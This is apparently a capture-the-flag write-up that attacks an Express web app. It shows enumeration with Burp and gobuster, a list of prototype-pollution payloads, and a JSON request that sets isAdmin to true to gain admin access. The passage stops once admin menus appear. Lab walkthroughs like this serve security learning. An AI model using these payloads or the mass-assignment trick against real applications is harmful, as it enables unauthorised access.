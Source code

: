 # Express app (port 4000)

Upon visiting the page, we are presented with a login page with a note to sign in as `guest:guest`.&#x20;

### Enumeration&#x20;

I opened Burp suite, and configured my browser to route traffic through the Burp proxy.

From inspection of the network requests, I discovered that the server uses _Express_ via the  `X-Powered-By` response headers. Express is a Node.js web framework used to develop web server applications ([https://expressjs.com/](https://expressjs.com/)).

<figure><img src="../../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

Running a simple directory enumeration on port 4000 with `gobuster` , using the [wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt):

```sh
$ gobuster dir -u http://<target>:4000 -w <wordlist>
```

<figure><img src="../../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

From the enumeration results, the one that stands out is the `/signup` route. I visited the address in the browser, and was faced with the following error:

<figure><img src="../../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

From this error message, we can learn of a few things:

a) The application uses a certain type of server-side rendered templating engine stored under the `views` folder

* Eg. Common Node.js engines includes: `.ejs`, `.pug`, etc.

b)  The root directory of the web application is `/home/ubuntu/include`&#x20;

* The application is ran as the user `ubuntu` &#x20;



Moving on, I logged into the application using the `guest:guest` credentials found earlier. I was presented with a page displaying my profile, along with a few of my friends. Navigating to my profile, I was able to view my current details, along with a form to "Recommend an Activity":

<figure><img src="../../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>



Upon entering the values **test** and **test** to the fields, a new entry appeared on the profile details:

<figure><img src="../../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

This presents an interesting vulnerability, since we are able to directly manipulate the profile details. The following displays the HTTP POST request:

<pre class="language-http"><code class="lang-http"><strong>POST /recommend-activity/1 HTTP/1.1
</strong>Host: xxx.xxx.xxx.xxx:4000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: http://10.10.233.149:4000
Connection: keep-alive
Referer: http://10.10.233.149:4000/friend/1
Cookie: connect.sid=token
Upgrade-Insecure-Requests: 1
Priority: u=0, i

activityType=test&#x26;activityName=test
</code></pre>

I sent the request to the Burp Repeater, and attempted a prototype pollution attack with the following payloads for `activityType` and `activityName` set to `true` :

1. `proto.polluted`
2. `constructor.prototype.polluted`
3. `__proto__['polluted']`
4. `__proto__.constructor.prototype.polluted`&#x20;
5. `['__proto__'].polluted`&#x20;
6. `['__proto__']['pollluted']`
7. `constructor['prototype'].polluted`
8. `constructor['prototype']['polluted']`
9. `['constructor']['prototype'].polluted`
10. `['constructor']['prototype']['polluted']`&#x20;

However, none of the payloads worked. Instead, I attempted to directly change the `isAdmin` field to `true` , but ended up changing the value to the literal string `"true"` . To get around this, I changed the content-type to `application/json` and tried the same request with the following payload:

```json
{
  "activityType":"isAdmin",
  "activityName": true
}
```

With this, we are now an admin. Upon navigating to the profile page, I noticed 2 more options on the navigation bar: _**“API”**_ and _**“Settings”**_
